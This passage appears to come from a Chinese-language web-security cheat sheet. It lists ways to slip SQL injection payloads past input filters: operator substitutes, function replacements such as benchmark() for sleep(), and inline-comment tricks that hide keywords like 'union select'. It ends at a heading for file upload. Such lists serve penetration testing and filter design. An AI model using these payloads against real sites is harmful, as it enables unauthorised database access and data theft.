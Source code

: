 ###### ④逻辑判断符被过滤

```
1. 等于号(=)绕过
	①1' or 1=1  =>  1' or 1<>1
	②1' or 1=1  =>  1' or 1 like 1a
2. 单个比较符的绕过
	①sqlmap可以使用between脚本，用greatest()返回给定表达式中最大值，least()返回给定表达式中最小值
		select * from users where id=1 and ascii(substr(user(),1,1))>100
		=> select * from users where id=1 and greatest(ascii(substr(user(),1,1)),100)=100
	②使用字符编码
		a. 实体编码   < => &lt;   > =>  &gt;
		b. ASCII码	< => %3C	> =>  %3E 
		c. Unicode编码	< => \u003C   > =>  \u003E
	③使用替代函数
		<  => CHAR(60)   >  =>  CHAR(62)
```

###### ⑤or and xor not绕过

```
1. 使用逻辑判断符替代
	and  =>  &&
    or   =>  ||
    xor  =>  |
    not  =>  !
2. 使用内联注释
	/*!and*/、/*!%23/*%0aand*/
```

###### ⑥函数过滤

```
1. sleep()	=> benchmark(10000000,md5(1))
2. ascii()  =>  ord()
3.  group_concat()	=>  concat_ws()
		例如：select group_concat(1,' -- ',1,' -- ',1)  => select concat_ws(' -- ',1,1,1)
4. substr()  =>  mid()、substring()、left()、right()
```

###### ⑦常见绕过方式

```
1. 绕过关键字检测
    a. user() --> user/*//--//*/()  或  database/*%!a*/()
    b. from  -->  /*!%23/*%0aform*/
    c. 大小写替换
    d. 重复关键字
2. 绕过2个及以上检测语句
union select  --> union/*//--/*/select
union select 1,2,3 -->   union /*!--+/*%0aselect/*!1,2,*/ 3
```



## 五、文件上传
